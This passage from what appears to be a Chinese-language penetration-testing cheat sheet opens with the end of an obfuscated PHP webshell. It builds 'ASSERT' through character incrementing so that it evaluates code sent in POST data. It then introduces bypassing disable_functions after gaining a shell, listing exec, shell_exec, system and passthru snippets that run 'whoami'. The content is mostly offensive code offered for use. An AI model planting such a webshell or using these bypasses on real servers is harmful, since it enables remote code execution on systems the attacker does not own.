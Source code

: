 ```php
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // S
$____.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
$___($_[_]); // ASSERT($_POST[_]);
```



------

## 命令执行disable_function绕过

```php
在渗透过程中，有很多 PHP 站点往往设置了disable_functions 来禁止用户调用某些危险函数，导致连接上shell后无法执行系统命令，下面介绍disable_function绕过方法
```

#### 一、 黑名单 bypass

```php
  即便是通过disable functions限制危险函数，也可能会有限制不全的情况。如果运维人员安全意识不强或对PHP不甚了解的话，则很有可能忽略某些危险函数，常见的有以下几种。
```

**exec()**

```php
<?php
echo exec('whoami');
?>
```

**shell_exec()**

```php
<?php
echo shell_exec('whoami');
?>
```

**system()**

```php
<?php
system('whoami');
?>
```

**passthru()**

```php
<?php
passthru("whoami");
?>
```
